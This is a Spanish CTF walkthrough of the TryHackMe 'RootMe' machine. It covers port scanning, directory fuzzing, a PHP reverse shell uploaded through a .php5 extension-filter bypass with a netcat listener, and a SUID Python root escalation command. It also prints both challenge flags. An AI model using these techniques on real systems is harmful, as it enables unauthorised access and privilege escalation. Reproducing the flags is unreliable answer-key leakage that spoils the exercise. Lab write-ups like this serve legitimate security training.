


# RootMe

## Escaneo de puertos

Ejecutamos un mapeo de puertos con `nmap` para obtener todos los puertos y servicios abiertos de la máquina vulnerable:

```bash
sudo nmap -sV -T4 -p- 10.10.66.233
```

Tenemos SSH y HTTP (Apache) como puertos abiertos disponibles.


## Enumeración web

Usamos el comando `gobuster` para hacer fuzzing y obtener más directorios ocultos en la página web:

```bash
gobuster dir -u http://10.10.66.233 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

De momento encontramos dos directorios potenciales: `/uploads` y `/panel`.




## Reverse shell

Buscamos una forma de obtener una reverse shell y obtener la flag.

Clonamos el repositorio de [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) y copianmos el contenido de `php-reverse-shell.php` en un nuevo fichero local llamado `shell.php`.


Modificamos la variable `$ip` de nuestra IP en Kali.


Intentamos subir el fichero, pero la web no permite subir extensiones `.php`.


Probamos renombrar a `.php2`, `.php3`, `.php4`, `.php5`; funciona con `.php5`.


Ponemos Netcat en escucha en nuestro equipo:

```bash
nc -lvnp 1234
```


Accedemos al directorio `/uploads` y vemos nuestro fichero.


Accedemos al script renombrado para lanzar la reverse shell.


Ya tenemos shell. Leemos la flag de usuario en el directorio de Apache.


```
THM{y0u_g0t_a_sh3ll}
```

## Escalada de privilegios

Buscamos binarios con SUID:

```bash
find / -user root -perm /4000 2>/dev/null
```

Destaca `/usr/bin/python` con SUID.


Consultamos en [GTFOBins](https://gtfobins.github.io/) cómo abusar de Python con SUID.



Ejecutamos el siguiente payload para obtener una shell con privilegios:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Ahora somos root.


Leemos la flag de root:


```
THM{pr1v1l3g3_3sc4l4t10n}
```
